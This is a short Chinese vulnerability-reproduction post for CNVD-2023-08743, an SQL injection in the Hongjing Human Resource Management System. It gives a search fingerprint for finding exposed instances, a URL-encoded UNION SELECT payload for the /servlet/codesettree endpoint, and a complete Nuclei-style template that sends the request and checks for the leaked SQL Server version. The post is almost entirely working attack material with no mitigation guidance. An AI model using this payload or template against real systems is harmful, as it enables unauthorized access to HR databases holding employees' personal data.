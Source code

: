 # 原创
：  【漏洞复现】CNVD-2023-08743

# 【漏洞复现】CNVD-2023-08743

### 【漏洞复现】

### CNVD-2023-08743

### 【漏洞介绍】

### Hongjing Human Resource Management System - SQL Injection

### 【指纹】

title=”人力资源信息管理系统”

### 【系统UI】

### 【payload】

/servlet/codesettree?flag=c&amp;status=1&amp;codesetid=1&amp;parentid=-1&amp;categories=~31~27~20union~20all~20select~20~27hongjing~27~2c~40~40version~2d~2d

### 【Poc】

```
id: CNVD-2023-08743

info:
  name: Hongjing SQL Injection
  author: xxx
  severity: high
  description: /
  reference:
    - https://
  metadata:
    fofa-query: title="人力资源信息管理系统"
  tags: hongjing,hcm

http:
  - raw:
      - |
        GET /servlet/codesettree?flag=c&amp;status=1&amp;codesetid=1&amp;parentid=-1&amp;categories=~31~27~20union~20all~20select~20~27hongjing~27~2c~40~40version~2d~2d HTTP/1.1
        Host: {{Hostname}}
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
          - 'contains(header,"text/xml")'
          - 'contains_all(body,"TreeNode id=\"hongjing","SQL Server")'
        condition: and
```
